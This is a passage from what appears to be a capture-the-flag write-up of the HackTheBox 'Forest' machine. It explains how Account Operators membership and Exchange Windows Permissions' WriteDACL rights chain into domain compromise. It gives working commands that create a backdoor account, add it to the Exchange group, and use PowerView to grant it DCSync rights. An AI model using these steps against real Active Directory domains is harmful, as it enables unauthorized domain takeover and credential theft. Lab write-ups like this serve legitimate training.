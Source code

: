 We will get the below graph showing the path to Domain Admin, I have rearranged the nodes for easier view.

{{< image src="/img/forest/forest5.png" alt="" position="center" style="border-radius: 8px;" >}}

We see the **Account Operators** group has *GenericAll* permissions on **Exchange Windows Permissions** Group.

### Account Operators Group

By looking at [Microsoft documentation](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#account-operators);

> The Account Operators group grants limited account creation privileges to a user. Members of this group can create and modify most types of accounts, including those of users, 
local groups, and global groups, and members can log in locally to domain controllers.
>
> Members of the Account Operators group cannot manage the Administrator user account, the user accounts of administrators, or the Administrators, Server Operators, Account Operators, 
Backup Operators, or Print Operators groups. Members of this group cannot modify user rights.

From the above information, we see that the Account Operators group has permission to create and modify any groups except those listed. Since the Exchange Windows Permissions group
isn't part of this list, it becomes modifiable by default.

### Exchange Windows Permissions Group

Remember the presence of Exchange? When installing Exchange, by default the permissions granted on the domain are too high (I think this is now patched on 2019 version, not sure). When Exchange
is installed, the Exchange Windows Permissions Group has WriteDACL access to the Domain.

See this article that goes in depth on the subject. [https://adsecurity.org/?p=4119](https://adsecurity.org/?p=4119) 

The Exchange Trusted Subsystem Group can also be used as it is a member of the Exchange Windows Permissions Group.

Now we can chain these two issues to compromise the domain.

## Owning the Domain

First we'll use our Account Operator privileges as svc-alfresco to create an account and add it the Exchange Windows Permissions Group.

```sh
net user pwned 'Pwn3d!!' /add
net group "Exchange Windows Permissions" pwned /add
```

We can then upload PowerView and use it to grant DCSync privileges to the newly created account. 

The below commands will allow powerview to use the credentials of the new account to grant the privileges on that account. 
We could also use the svc-alfresco account if we wanted.

```sh
$SecPassword = ConvertTo-SecureString 'Pwn3d!!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\pwned', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetDomain htb.local -PrincipalIdentity 'pwned' -Rights DCSync
```

